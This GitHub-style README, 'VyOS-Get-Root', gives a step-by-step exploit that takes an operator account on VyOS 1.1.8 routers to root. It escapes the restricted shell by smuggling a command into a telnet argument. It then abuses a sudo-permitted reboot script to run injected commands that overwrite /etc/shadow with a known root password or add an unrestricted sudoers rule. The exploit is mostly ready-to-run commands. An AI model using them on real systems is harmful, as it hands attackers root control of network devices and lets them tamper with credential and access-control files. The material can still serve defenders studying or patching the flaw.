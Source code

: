 # VyOS-Get-Root
Privilege escalation to root on VyOS from an operator CLI

If you have operator-level console access on VyOS (or possibly another OS derived from Vyatta - Brocade vRouter or Ubiquiti EdgeOS) then you can use this technique to gain console access as root.  This has been tested on VyOS version 1.1.8.

The operator mode is already known to be insecure in other ways, so the account is normally not available.  However some administrators have manually added operator accounts.  Here is an example of how an operator account could be created.

```
configure
set system login user operator level operator
set system login user operator authentication plaintext-password Operator123
commit
save
```

Once logged in as `operator` with the password of `Operator123` in this example, you will be dropped into a restricted shell `/opt/vyatta/bin/restricted-shell` that normally does not have configuration write capabilities or access to the bash shell and commands.

Execute the following command to escape out of the `restricted-shell` and acquire a normal `bash` shell:<br />
`telnet "127.0.0.1;bash"`

See that you can now execute bash commands:<br />
`id`<br />
`sudo -l`

You should notice from the above command that an operator has limited sudo capabilities to scripts located under `/opt/vyatta/bin/sudo-users/`

You can exploit the `vyatta-reboot.pl` script to change the root password:<br />
``echo '`ROOTPW=$(openssl passwd -1 pwn3d); echo "root:$ROOTPW:17481:0:99999:7:::" > /tmp/shadow; tail -n +2 /etc/shadow >> /tmp/shadow; mv /tmp/shadow /etc/shadow; chmod 640 /etc/shadow; chown root:shadow /etc/shadow`' > /var/run/reboot.job``

`sudo /opt/vyatta/bin/sudo-users/vyatta-reboot.pl --action show_reboot`

`rm /var/run/reboot.job`

Now exit the CLI as the operator account and login as `root` with a password of `pwn3d`.

As an alternative to changing/setting root's password you could remove sudo restrictions on the `operator` account:<br />
``echo '`cp /etc/sudoers /tmp/; echo "%operator ALL=NOPASSWD: ALL" >> /tmp/sudoers; mv /tmp/sudoers /etc/; chmod 440 /etc/sudoers; chown root:root /etc/sudoers`' > /var/run/reboot.job``

`sudo /opt/vyatta/bin/sudo-users/vyatta-reboot.pl --action show_reboot`

`rm /var/run/reboot.job`

Now exit the CLI as the operator account and log back in as operator.  Break out of the restricted shell, escalate to a root shell and verify.<br />
`telnet "127.0.0.1;bash"`

`sudo su -`

`id`

